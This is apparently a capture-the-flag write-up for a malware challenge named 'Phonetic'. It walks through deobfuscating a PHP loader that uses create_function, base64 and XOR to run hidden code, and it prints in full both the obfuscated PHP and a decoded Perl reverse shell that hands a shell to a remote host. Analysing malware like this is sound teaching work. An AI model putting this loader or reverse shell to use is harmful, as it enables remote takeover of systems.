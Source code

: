 # Phonetic - 362pt
--------------------------------------
## Topic sumary

This problem gives us file `Phonetic`, you can download it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic) <br>
Open it with notepad++
```php 
<?php  


 function deGRi($wyB6B, $w3Q12 = '') { $zZ096 = $wyB6B; $pCLb8 = ''; for ($fMp3G = 0; $fMp3G < strlen($zZ096);) { for ($oxWol = 0; $oxWol < strlen($w3Q12) && $fMp3G < strlen($zZ096); $oxWol++, $fMp3G++) { $pCLb8 .= $zZ096[$fMp3G] ^ $w3Q12[$oxWol]; } } return $pCLb8; }
/*iNsGNGYwlzdJjfaQJIGRtTokpZOTeLzrQnnBdsvXYlQCeCPPBElJTcuHmhkJjFXmRHApOYlqePWotTXHMuiuNfUYCjZsItPbmUiXSxvEEovUceztrezYbaOileiVBabK*/

$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$gbaylYLd6204 = "LmQ9AT8aND16c2AcMh0lCS9BDFtTATklDzA.......";/*a fucking string =))) */
$fsPwhnfn8423 = "";
$oZjuNUpA325 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

/*aajypPZLxFoueiuYpHkwIQbmoSLrNBGmiaDTgcWLKRANAfJxGeoOIzIjLBHHsVEHKTrhqhmFqWgapWrPsuMYcbIZBcXQrjWWEGzoUgWsqUfgyHtbwEDdQxcJKxGTJqIe*/

$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
$c();

/*TnaqRZZZJMyfalOgUHObXMPnnMIQvrNgBNUkiLwzwxlYWIDfMEsSyVVKkUfFBllcCgiYSrnTCcqLlZMXXuqDsYwbAVUpaZeRXtQGWQwhcAQrUknJCeHiFTpljQdRSGpz*/
```
---------------------------------------------------------
WTF? are you kidding me =))) <br>
![](https://media.giphy.com/media/aZ3LDBs1ExsE8/giphy.gif)

I run the loops separately. it gives readable results :V
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
echo $fsPwhnfn8423; // base64_decode
```
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

echo $oZjuNUpA325; // strrev
```
Continue...
```php
echo strrev('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
//create_function
```
Put together we get
```php
create_function("",base64_decode(deGRi(base64_decode(/*fuckin string*/), "tVEwfwrN302")));
```
Run it and we get another php file =))), it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic_decode.php)
I'm stuck here.... <br>
After a few minutes (actually hours .-.). I found some base64 strings in source code <br>
A string after decryption, it looks like this
```shell
#!/usr/bin/perl
use Socket;
$iaddr=inet_aton($ARGV[0]) || die("Error: $!\n");
$paddr=sockaddr_in($ARGV[1], $iaddr) || die("Error: $!\n");
$proto=getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Error: $!\n");
connect(SOCKET, $paddr) || die("Error: $!\n");
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");
my $str = <<END;
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
end
END
system('/bin/sh -i -c "echo ${string}; bash"');
close(STDIN);
close(STDOUT);
close(STDERR)
```
Do you see it?
```shell
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
```
![](https://media.giphy.com/media/JqDeI2yjpSRgdh35oe/giphy.gif)

Decode it~~~<br>
`
flag{9b5c4313d12958354be6284fcd63dd26}
`
